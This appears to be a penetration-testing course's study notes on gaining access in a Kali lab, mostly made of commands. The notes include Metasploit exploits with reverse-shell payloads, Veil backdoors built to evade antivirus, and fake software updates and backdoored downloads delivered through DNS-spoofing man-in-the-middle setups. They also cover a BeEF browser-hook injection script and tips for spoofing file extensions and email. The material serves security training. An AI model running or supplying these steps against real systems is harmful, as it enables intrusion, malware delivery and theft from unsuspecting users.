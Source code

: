# Gaining Access

Three main approaches:

1. [Server Side](#server-side)

2. [Client Side](#client-side)

3. [Social Engineering](#social-engineering)

## Server Side

---

* To check if the Metasploitable machine and the Kali machine are on the same network, we can do a ping test:

```shell
ping 10.0.2.5
```

* zenmap can be used to gather more information about the server, as we have the IP now. Based on the vulnerable ports and services, we can discover more attacks on it.

* For each open port or service, we can Google them followed by the term 'exploit', and that will give us an idea about the vulnerabilities.

* Metasploit framework can be used to develop and launch exploits.

* Example of backdoor vulnerability:

```shell
msfconsole #launches Metasploit

use exploit/unix/ftp/vsftpd_234_backdoor #use particular exploit

show options

set RHOSTS 10.0.2.5

exploit #launch exploit
```

* Example of payload execution:

```shell
msfconsole

use exploit exploit/multi/samba/usermap_script

show options

set RHOSTS 10.0.2.5

show payloads #shows all possible payloads for particular exploit

#bind payloads open up a port on the target computer, and we can connect to it
#reverse payloads open up a port on our machine, and the target computer can connect to it
#reverse payloads can bypass firewalls

set PAYLOAD cmd/unix/reverse_netcat #sets payload

show options

set LHOST 10.0.2.4

exploit
```

## Client Side

---

* These attacks require user interaction and should be attempted if server-side attacks do not work.

* We can use Veil framework to generate backdoors which cannot be detected by anti-virus softwares.

```shell
veil

use 1 #uses evasion

list #shows list of payloads

use 15 #uses particular payload

set LHOST 10.0.2.7 #value as our IP

set LPORT 8080

set PROCESSORS 1 #making the payload unique by setting properties values

set SLEEP 5

generate #generate the backdoor
```

* Once backdoor is generated, we can check if it is detected by antivirus programs.

* To listen for incoming connections:

```shell
msfconsole

use exploit/multi/handler #module for listening incoming connections

show options

set PAYLOAD windows/meterpreter/reverse_https #set payload option

set LHOST 10.0.2.7 #set lhost as ip address

set LPORT 8080

exploit
```

* To check if backdoor works, we first need to move the backdoor file to the location '/var/www/html'.Then, after starting the Kali web server, we can use the Windows VM to visit the specific directory of the backdoor file.

* We can use EvilGrade to launch a fake upgrade in order to make the target download the backdoor:

```shell
cd /opt/evilgrade

./evilgrade

show modules

configure dap #this selects the module 'dap'

show options

set agent /var/www/html/evil-files/rev_https_8080.exe #path of backdoor file

set endsite www.speedbit.com

start

#Now we would want to be the MITM, so in a separate terminal we can use spoof.cap and DNS spoofing; note that metasploit is still listening for incoming connections in the background

bettercap -iface eth0 -caplet spoof.cap

set dns.spoof.all true

set dns.spoof.domains update.speedbit.com

dns.spoof on

#Now we can check the software(DAP) for updates on the Windows machine, and get access to it remotely
```

* Another method for downloading backdoors is using a software called BDFProxy:

```shell
#Navigate to /opt/BDFProxy, and configure bdfproxy.cfg according to target

cd /opt/BDFProxy/

./bdf_proxy.py

#Now, become the MITM
bettercap -iface eth0 -caplet spoof.cap

#Apply a rule for packets
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

#run resource file given by BDFProxy
msfconsole --resource /opt/BDFProxy/bdfproxy_msf_resource.rc

#Now, we can wait for target computer to download something like an .exe file, so that it can get backdoored during the process
```

## Social Engineering

---

* These attacks rely on gathering info about the user, and building a strategy based on the info gathered.

* Maltego can be used as an information gathering tool. Based on the info gathered, strategies can be built for the target.

* We can combine backdoor with any file by using a [download-and-execute payload](../autoit-download-and-execute.txt). As this sample script is written in AutoIt, we have to change extension from .txt to .au3. Then, it can be compiled into a .exe file, and moved to the directory /var/www/html/. At the same time, we have to listen for incoming connections using Metasploit.

* Using a right-to-left override character, we can spoof the file extension (from .exe to .jpg, for example).

* Email spoofing can be done by using a SMTP server, or using PHP mail functions coupled with a web hosting plan.

* BeEF (Browser Exploitation Framework) can be used to launch attacks on a hooked target. A basic way of hooking a browser is by injecting the given script into the web file of Kali and visiting the IP address on target machine.

* Script for injecting BeEF:

```javascript
var imported = document.createElement('script');
imported.src = 'http://10.0.2.7:3000/hook.js';
document.head.appendChild(imported);
```

* By using BeEF with Bettercap, we can inject JavaScript code into the target browser.

```shell
#first add BeEF injection script file location into hstshijack.cap payload section

bettercap -iface eth0 -caplet spoof.cap

hstshijack/hstshijack

#if target computer loads any website on the browser now, it gets hooked to BeEF
```

* Once hooked, we can use BeEF commands to attack the target.

* Using BeEF, we can also hook a machine that exists outside our network. We have to use our external IP address whenever we're sending it out of our network (in the BeEF injecting script, for example); and we've to configure our router such that it redirects the port that we're listening on to the internal IP address of the Kali machine (port forwarding).

---
